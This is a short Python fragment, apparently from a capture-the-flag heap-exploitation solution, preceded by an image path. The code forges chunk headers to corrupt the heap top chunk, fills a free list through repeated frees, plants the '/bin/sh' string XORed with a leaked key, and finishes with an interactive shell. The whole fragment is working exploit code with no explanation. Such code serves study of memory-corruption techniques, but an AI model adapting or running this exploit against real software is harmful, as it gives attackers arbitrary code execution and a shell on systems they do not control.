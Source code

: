 ```python
edit(0x1030,p64(key2^0x0068732f6e69622f))# /bin/sh
add(0x1470)
#-----------------attack topchunk-----------------------------

pay= p64(0)+p64(0x21)
pay+=p64(0)+p64(0x21)
pay+=p64(0)+p64(0xc1)# topchunk
pay+=p64(0)*22
pay+=p64(0)+p64(0x21)
pay+=p64(0)+p64(0x21)
pay+=p64(0)+p64(0x21)
pay+=p64(0)+p64(0x21)
edit(0x1800,pay)

for i in range(7):
    dele(0x1830)
    edit(0x1830,'\x00'*0x10)

dele(0x1830)
add(0xffff)
# dbg()
p.interactive()
```

